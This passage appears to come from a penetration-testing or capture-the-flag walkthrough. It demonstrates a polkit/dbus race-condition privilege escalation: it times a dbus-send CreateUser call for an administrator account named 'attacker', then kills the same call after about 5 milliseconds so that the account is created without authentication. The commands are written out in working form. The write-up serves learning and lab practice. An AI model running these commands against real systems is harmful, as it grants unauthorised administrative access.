 ```
apt list --upgradeable
```

<figure><img src="../../.gitbook/assets/image (914).png" alt=""><figcaption></figcaption></figure>

This attempts to create our new account, and times how long it takes for the command to finish. In the target machine this should be _about_ 11 milliseconds. It took us 13 milliseconds

**Victim**

```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

<figure><img src="../../.gitbook/assets/image (915).png" alt=""><figcaption></figcaption></figure>

We now need to take the same dbus message, send it, then cut it off at about halfway through execution. 5 milliseconds tends to work fairly well for this box.

_**Note:** you may need to repeat this a few times with different delays before the account is created._

**Victim**

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
